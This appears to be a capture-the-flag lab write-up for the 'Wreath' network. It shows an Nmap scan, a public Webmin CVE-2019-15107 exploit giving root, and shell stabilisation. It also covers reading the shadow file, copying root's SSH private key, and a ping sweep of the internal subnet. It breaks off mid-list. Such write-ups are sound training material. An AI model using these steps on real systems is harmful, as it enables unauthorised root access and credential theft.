 # - Nmap
````bash
PORT      STATE  SERVICE    VERSION
22/tcp    open   ssh        OpenSSH 8.0 (protocol 2.0)
| ssh-hostkey: 
|   3072 9c:1b:d4:b4:05:4d:88:99:ce:09:1f:c1:15:6a:d4:7e (RSA)
|   256 93:55:b4:d9:8b:70:ae:8e:95:0d:c2:b6:d2:03:89:a4 (ECDSA)
|_  256 f0:61:5a:55:34:9b:b7:b8:3a:46:ca:7d:9f:dc:fa:12 (ED25519)
80/tcp    open   http       Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1c)
|_http-title: 400 Bad Request
|_http-server-header: Apache/2.4.37 (centos) OpenSSL/1.1.1c
443/tcp   open   ssl/http   Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1c)
|_ssl-date: TLS randomness does not represent time
|_http-title: 400 Bad Request
| tls-alpn: 
|_  http/1.1
|_http-server-header: Apache/2.4.37 (centos) OpenSSL/1.1.1c
| ssl-cert: Subject: commonName=thomaswreath.thm/organizationName=Thomas Wreath Development/stateOrProvinceName=East Riding Yorkshire/countryName=GB
| Issuer: commonName=thomaswreath.thm/organizationName=Thomas Wreath Development/stateOrProvinceName=East Riding Yorkshire/countryName=GB
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2023-08-04T20:20:25
| Not valid after:  2024-08-03T20:20:25
| MD5:   e0ad:f3df:443a:760b:1d19:4ff7:7860:2456
|_SHA-1: aa1e:ddc4:41cd:958c:8efd:53a3:f43c:eedc:26a3:b202
9090/tcp  closed zeus-admin
10000/tcp open   http       MiniServ 1.890 (Webmin httpd)
|_http-favicon: Unknown favicon MD5: 1E5A7939D17BBCA08F889CB5A6E49621
|_http-title: Login to Webmin
| http-methods: 
|_  Supported Methods: HEAD POST OPTIONS
````
- - On exploring website I found nothing.
- - On observing I got **Miniserv** running on port 10000 with a vulnerable version.
- - On googling I found [CVE-2019-15107](https://github.com/MuirlandOracle/CVE-2019-15107) exploit.
````bash
└─$ python3 CVE-2019-15107.py 10.200.96.200

        __        __   _               _         ____   ____ _____                                                                                                                           
        \ \      / /__| |__  _ __ ___ (_)_ __   |  _ \ / ___| ____|                                                                                                                          
         \ \ /\ / / _ \ '_ \| '_ ` _ \| | '_ \  | |_) | |   |  _|                                                                                                                            
          \ V  V /  __/ |_) | | | | | | | | | | |  _ <| |___| |___                                                                                                                           
           \_/\_/ \___|_.__/|_| |_| |_|_|_| |_| |_| \_\____|_____|                                                                                                                           
                                                                                                                                                                                             
                                                @MuirlandOracle                                                                                                                              
                                                                                                                                                                                             
                                                                                                                                                                                             
[*] Server is running in SSL mode. Switching to HTTPS
[+] Connected to https://10.200.96.200:10000/ successfully.
[+] Server version (1.890) should be vulnerable!
[+] Benign Payload executed!

[+] The target is vulnerable and a pseudoshell has been obtained.
Type commands to have them executed on the target.                                                                                                                                           
[*] Type 'exit' to exit.
[*] Type 'shell' to obtain a full reverse shell (UNIX only).

# whoami
root
````
- Next, is to stabilise the shell. To do so I got a reverse shell to my system using Netcat and run the following commands.
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm

ctrl+z

stty raw -echo;fg                                            
```
- Next for persistence, I cat the shadow file but was not able to crack the password.
- So, I copied the id_rsa file from the `/root/.ssh/` folder and paste it into my machine.
- Did `chmod +600 id_rsa` to get the field worked for ssh connections.
```bash
ssh -i id_rsa root@10.200.96.200
[root@prod-serv ~]# whoami
root
```
- Now, we have initial access to the machine. Let's do a quick ping to the internal network.
```bash
for i in {1..255}; do (ping -c 1 10.200.96.${i} | grep "bytes from" &); done

64 bytes from 10.200.96.1: icmp_seq=1 ttl=255 time=0.344 ms
64 bytes from 10.200.96.200: icmp_seq=1 ttl=64 time=0.076 ms
64 bytes from 10.200.96.250: icmp_seq=1 ttl=64 time=1.71 ms
```
- So, we found 2 machines in the internal network.
- 
